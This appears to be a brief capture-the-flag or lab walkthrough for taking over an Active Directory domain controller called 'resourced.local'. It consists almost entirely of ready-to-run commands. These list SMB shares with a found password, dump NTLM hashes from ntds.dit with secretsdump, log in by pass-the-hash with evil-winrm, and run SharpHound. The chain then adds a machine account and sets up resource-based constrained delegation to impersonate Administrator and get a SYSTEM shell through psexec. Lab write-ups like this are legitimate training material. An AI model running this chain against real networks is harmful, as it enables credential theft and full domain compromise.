






Checking shares for V.Ventz user:
```
smbclient -L \\\\192.168.198.175\\ -U V.ventz%'HotelCalifornia194!'
```



In "Password Directory":

We have ntds.dit.
In registry share:

Now we can use secretsdump.py:
```
secretsdump.py LOCAL -ntds ntds.dit -system ../registry/SYSTEM
```
We can check for *L.livingstone* as:

As he is the SysAdmin:
```
evil-winrm -i 192.168.198.175 -u L.Livingstone -H '19a3a7550ce8c505c2d46b5e39d6f808'
```

Running Sharphound:
```
.\SharpHound.exe -c All
```


We have genericAll

```
impacket-addcomputer resourced.local/l.livingstone -dc-ip 192.168.198.175 -hashes :19a3a7550ce8c505c2d46b5e39d6f808 -computer-name 'ATTACK$' -computer-pass 'AttackerPC1!'
```

Now use rbcd.py:
```
rbcd.py -dc-ip 192.168.198.175 -t RESOURCEDC -f 'ATTACK' -hashes :19a3a7550ce8c505c2d46b5e39d6f808 resourced\\l.livingstone
```

Then:
```
impacket-getST -spn cifs/resourcedc.resourced.local resourced/attack\$:'AttackerPC1!' -impersonate Administrator -dc-ip 192.168.x.x
```

Now can get a nt authority\\system shell.
```
psexec.py -k -no-pass resourcedc.resourced.local -dc-ip 192.168.198.175
```
